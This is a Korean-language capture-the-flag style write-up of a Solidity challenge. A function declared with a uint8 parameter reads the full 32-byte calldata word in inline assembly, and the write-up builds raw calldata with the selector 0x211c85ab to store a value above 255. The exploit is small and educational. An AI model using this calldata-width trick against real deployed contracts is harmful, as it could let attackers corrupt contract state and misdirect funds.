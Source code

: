 ## 취약점 발견

핵심 취약점: **함수 시그니처 vs 어셈블리 구현**

``` solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

### 문제점

-   함수는 `uint8` 파라미터 선언 (0-255만 허용)
-   어셈블리는 `calldataload(4)`로 32바이트 전체 읽음
-   ABI 인코딩에서 `uint8`도 32바이트 패딩됨

------------------------------------------------------------------------

## ABI 인코딩 이해

`registerTreasury(256)` 호출시 calldata:

  위치   데이터        설명
  ------ ------------- ----------------------------
  0-3    211c85ab      함수 셀렉터
  4-35   0000...0100   uint8(256) → 32바이트 패딩

핵심: `calldataload(4)`는 4-35번째 위치의 모든 32바이트를 읽음!

------------------------------------------------------------------------

## 익스플로잇 개발

### 공격 시나리오

-   문제: treasury \> 255 필요, uint8은 최대 255\
-   취약점: 어셈블리가 실제로는 32바이트 읽음\
-   방법: 256 이상의 값을 raw calldata로 전송

### 함수 셀렉터 계산

``` javascript
const registerTreasurySelector = web3.utils.keccak256("registerTreasury(uint8)").slice(0, 10);
// 결과: 0x211c85ab
```

### 악의적인 Calldata 구성

``` javascript
const targetValue = "0000000000000000000000000000000000000000000000000000000000000100";
const maliciousCalldata = "0x211c85ab" + targetValue;
```
